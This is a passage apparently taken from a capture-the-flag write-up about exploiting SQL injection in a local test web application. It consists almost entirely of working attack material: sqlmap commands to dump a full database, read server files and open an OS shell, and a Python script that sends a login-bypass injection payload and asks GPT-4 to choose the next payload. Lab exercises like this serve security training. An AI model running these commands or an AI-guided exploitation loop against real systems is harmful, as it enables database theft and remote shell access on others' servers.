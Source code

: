 #### 4.4 Using sqlmap for Exploitation

```bash
# Dump entire database
sqlmap -u "http://localhost:8080/index.php?page=login" \
       --data="username=admin&password=test" \
       -D ctf_database \
       --dump-all \
       --batch

# Read file
sqlmap -u "http://localhost:8080/index.php?page=product_detail&id=1" \
       --file-read="/var/lib/mysql/secret_flag.txt" \
       --batch

# OS shell (if possible)
sqlmap -u "http://localhost:8080/index.php?page=product_detail&id=1" \
       --os-shell \
       --batch
```

#### 4.5 AI-Optimized Exploitation

**Script: auto_exploit.py**
```python
import requests
import openai
import time

def ai_analyze_response(response_text):
    """Use AI to analyze response and suggest next step"""
    prompt = f"""
    Analyze this SQL injection response:
    {response_text}

    1. Is the injection successful?
    2. What data is revealed?
    3. What should be the next payload?
    """

    response = openai.ChatCompletion.create(
        model="gpt-4",
        messages=[{"role": "user", "content": prompt}]
    )

    return response.choices[0].message.content

def test_payload(url, payload):
    """Test a SQL injection payload"""
    data = {
        'username': payload,
        'password': 'test'
    }

    response = requests.post(url, data=data)
    return response.text

# Main exploitation loop
url = "http://localhost:8080/index.php?page=login"
initial_payload = "admin' OR '1'='1' --"

response = test_payload(url, initial_payload)
analysis = ai_analyze_response(response)
print(analysis)
```